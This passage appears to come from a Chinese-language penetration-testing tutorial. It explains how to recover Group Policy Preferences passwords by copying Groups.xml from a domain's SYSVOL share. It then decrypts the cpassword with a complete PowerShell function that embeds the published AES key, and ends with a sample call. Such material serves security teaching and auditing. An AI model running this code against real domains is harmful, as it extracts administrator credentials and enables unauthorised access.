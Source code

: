 ![](https://p408.ssl.qhimgs4.com/t01c0304218f9e77868.png)

输入以下命令后再次运行Get-GPPPassword：

```text
Add-Type -AssemblyName System.Core
```

如依然报错，则为环境问题，采取本地破解的方法。

**本地破解**

将\\SYSVOL\\Policies{GUID}\MACHINE\Preferences\Groups下的Group.xml拷贝出来，其内容如下：

![](https://p408.ssl.qhimgs4.com/t01519e54ae9fbfb469.png)

使用脚本将其破解，powershell版本如下：

```text
function Get-DecryptedCpassword {
    [CmdletBinding()]
    Param (
        [string] $Cpassword
    )

    try {
        #Append appropriate padding based on string length  
        $Mod = ($Cpassword.length % 4)

        switch ($Mod) {
        '1' {$Cpassword = $Cpassword.Substring(0,$Cpassword.Length -1)}
        '2' {$Cpassword += ('=' * (4 - $Mod))}
        '3' {$Cpassword += ('=' * (4 - $Mod))}
        }

        $Base64Decoded = [Convert]::FromBase64String($Cpassword)

        #Create a new AES .NET Crypto Object
        $AesObject = New-Object System.Security.Cryptography.AesCryptoServiceProvider
        [Byte[]] $AesKey = @(0x4e,0x99,0x06,0xe8,0xfc,0xb6,0x6c,0xc9,0xfa,0xf4,0x93,0x10,0x62,0x0f,0xfe,0xe8,
                             0xf4,0x96,0xe8,0x06,0xcc,0x05,0x79,0x90,0x20,0x9b,0x09,0xa4,0x33,0xb6,0x6c,0x1b)

        #Set IV to all nulls to prevent dynamic generation of IV value
        $AesIV = New-Object Byte[]($AesObject.IV.Length) 
        $AesObject.IV = $AesIV
        $AesObject.Key = $AesKey
        $DecryptorObject = $AesObject.CreateDecryptor() 
        [Byte[]] $OutBlock = $DecryptorObject.TransformFinalBlock($Base64Decoded, 0, $Base64Decoded.length)

        return [System.Text.UnicodeEncoding]::Unicode.GetString($OutBlock)
    }

    catch {Write-Error $Error[0]}
}
Get-DecryptedCpassword "biYmsOSnsOeehzPTba4OhbBQ6qSfzAATQLWlmlAylZU"
```

